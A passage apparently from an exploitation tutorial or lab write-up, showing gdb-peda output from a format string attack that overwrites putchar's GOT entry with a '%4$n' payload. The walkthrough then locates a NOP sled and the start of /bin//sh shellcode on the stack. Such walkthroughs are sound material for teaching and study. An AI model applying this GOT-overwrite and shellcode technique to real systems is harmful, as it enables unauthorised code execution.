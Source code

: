 ```
  [-------------------------------------code-------------------------------------]
  Invalid $PC address: 0x5
  [------------------------------------stack-------------------------------------]
  0000| 0xbffff5fc --> 0x8048480 (<main+60>:  leave)
  0004| 0xbffff600 --> 0xa ('\n')
  0008| 0xbffff604 --> 0xbffff88a --> 0x804a010 --> 0x5 
  0012| 0xbffff608 --> 0x1 
  0016| 0xbffff60c --> 0xb7ec71c9 (test   eax,eax)
  0020| 0xbffff610 --> 0x804a010 --> 0x5 
  0024| 0xbffff614 (".%4$n")
  0028| 0xbffff618 --> 0x6e ('n')
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x00000005 in ?? ()
  gdb-peda$ x/xw 0x0804a010
  0x804a010 <putchar@got.plt>:	0x00000005
  gdb-peda$ 
```
As you can see from above the program crashed and we have verified that the
value 5 has indeed been written to the address we wanted,

* We now need to know the address of our shellcode, this address can be anywhere
  in our NOP sled (the bunch of 0x90's we put at the beginning of our shellcode
  EGG environment variable)

```
  gdb-peda$ find 0x90909090 $esp $esp+2000
  Searching for '0x90909090' in range: 0xbffff5ac - 0xbffffd7c
  Found 16 results, display max 16 items:
  [stack] : 0xbffff8d8 --> 0x90909090 
  [stack] : 0xbffff8dc --> 0x90909090 
  [stack] : 0xbffff8e0 --> 0x90909090 
  [stack] : 0xbffff8e4 --> 0x90909090 
  [stack] : 0xbffff8e8 --> 0x90909090 
  [stack] : 0xbffff8ec --> 0x90909090 
  [stack] : 0xbffff8f0 --> 0x90909090 
  [stack] : 0xbffff8f4 --> 0x90909090 
  [stack] : 0xbffff8f8 --> 0x90909090 
  [stack] : 0xbffff8fc --> 0x90909090 
  [stack] : 0xbffff900 --> 0x90909090 
  [stack] : 0xbffff904 --> 0x90909090 
  [stack] : 0xbffff908 --> 0x90909090 
  [stack] : 0xbffff90c --> 0x90909090 
  [stack] : 0xbffff910 --> 0x90909090 
  [stack] : 0xbffff914 --> 0x90909090 
  
  gdb-peda$ x/20i 0xbffff910
     0xbffff910:	nop
     0xbffff911:	nop
     0xbffff912:	nop
     0xbffff913:	nop
     0xbffff914:	nop
     0xbffff915:	nop
     0xbffff916:	nop
     0xbffff917:	nop
     0xbffff918:	xor    eax,eax
     0xbffff91a:	push   eax
     0xbffff91b:	push   0x68732f2f
     0xbffff920:	push   0x6e69622f
     0xbffff925:	mov    ebx,esp
     0xbffff927:	push   eax
     0xbffff928:	push   ebx
     0xbffff929:	mov    ecx,esp
```